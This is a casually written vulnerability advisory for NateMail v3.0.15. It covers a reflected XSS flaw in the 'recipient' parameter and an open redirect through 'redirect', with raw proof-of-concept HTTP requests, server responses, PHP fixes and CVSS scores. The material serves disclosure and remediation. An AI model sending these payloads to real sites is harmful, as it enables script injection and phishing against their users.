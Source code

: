 ```yaml
---
type: article
title: NateMail Vulnerabilities – CVE-2019-13392
tags: [XSS, Open Redirect ]
date: 2019-10-15
author: Eno Leriand
featuredImage: https://lh3.googleusercontent.com/VmQl2-hDYUd_mV2nZ8VIxsvsgxMy2nTmTVWC6dZnNnVoVPDaYFGKUPfheIfXpXOG7hdUu8L2bq9bH-hux87Me3xd=h700
---
```


## Welcome to the Security Dumpster Fire 🚨🔥

NateMail v3.0.15 is a **hot mess**. We’re talking **XSS holes** wide open and **open redirects** that’ll send users straight into the void. This script hasn’t been updated in years, but if you’re reckless enough to still have it running, congrats—you’re basically an all-you-can-hack buffet. 

If you wanna verify how bad it is, go ahead, grab a copy. If you wanna fix it, I got you covered. If you wanna ignore it… well, don’t say I didn’t warn you. 

**Side note:** MITRE straight-up refused to assign a CVE for the open redirect. Yeah, it’s that much of a joke. Anyway, here’s the breakdown. 

---

## XSS Vulnerability – Because Why Not? 💀

### How It Works

NateMail has a **reflected XSS** flaw that lets an attacker inject JavaScript and make your users’ browsers cry. Basically, the app blindly reflects whatever garbage you throw into the `recipient` parameter, so tossing in some spicy JavaScript **executes instantly**. 🤦‍♂️

### Exploit (aka: How to Wreck It)

Wanna see it in action? Here’s your golden ticket:

#### Raw HTTP Request 🚀
```http
POST /NateMail.php HTTP/1.1
Host: <Host/IP>
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 59

recipient=%3cscript%3ealert(document.domain)%3c%2fscript%3e
```

#### Raw HTTP Response 💀
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
    <head>
        <title>Form Results</title>
        ...
        <span class="MPerror">No email address was found in the recipients list with key number "<script>alert(document.domain)</script>"
    </span>
</html>
```

Yep. That’s **free XSS execution** right there. Your browser? Toast. Security? Non-existent. 

---

## Open Redirect – The Phishing Paradise 🎣

### How It Works

This genius-level code lets **anyone** send users **anywhere** by messing with the `redirect` parameter. **No validation. No restrictions. Just pure chaos.**

### Exploit (aka: How to Send People to the Shadow Realm)

Here’s how easy it is to hijack users:

#### Raw HTTP Request ✈️
```http
POST /NateMail.php HTTP/1.1
Host: <Host/IP>
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 46

recipient=0&redirect=http%3A%2F%2Fwww.google.com
```

#### Raw HTTP Response 🎯
```http
HTTP/1.1 302 Found
Location: http://www.google.com
Content-Type: text/html; charset=UTF-8
```

Boom. User clicks? **Redirected straight to whatever shady site you cooked up.** Phishing? Malvertising? Fake login pages? The possibilities are endless. 

---

## Fix This Trainwreck 🚧

### 1️⃣ Patch the XSS Disaster
- **Sanitize. Your. Inputs.** Don’t let users throw JavaScript into `recipient`.
- **Escape outputs.** Every. Single. One.
- Update this gem of a line:

  ```php
  $errors .= "No email address was found in the recipients list with key number \"$thisRecipKey\"<br>$le";
  ```
  **DO NOT trust `$thisRecipKey`** unless you want XSS ruining your life.

### 2️⃣ Lock Down Open Redirects
- **Whitelist valid redirect destinations.** If it ain’t on the list, it ain’t happening.
- **Patch this monstrosity on line 638:**

  ```php
  if ($redirect != "") {
      $printHTML = false;
      if (!in_array($redirect, $trusted_redirects)) {
          die("Nice try, buddy.");
      }
  }
  ```
  Seriously, don’t just let users go wherever the hell they want. You’re asking for trouble. 

---

## Severity & Exploitability 🔥

| **Vulnerability**  | **Severity** | **CVSS Score** | **Damage Potential** |
|-------------------|------------|--------------|------------------|
| **XSS**          | Medium     | 6.1          | Full script execution in the victim’s browser |
| **Open Redirect** | Medium     | 6.1          | Phishing, malware drops, and mass user redirection |

### How Easy Is It to Exploit? 🤔
- **XSS:** Literally takes 2 minutes to exploit. Copy-paste payload → Send request → Game over.
- **Open Redirect:** Even easier. Craft a URL, send it to some unsuspecting victim, and laugh.

---

## Final Thoughts: This Script Is a Joke 🎭

Look, if you’re still running NateMail **in 2025**, you **deserve** to be hacked. But if you actually care about security, **patch this mess ASAP** or just nuke the whole script and switch to something that wasn’t coded by a sleep-deprived raccoon.

Stay safe. Or don’t. Your call. 😎

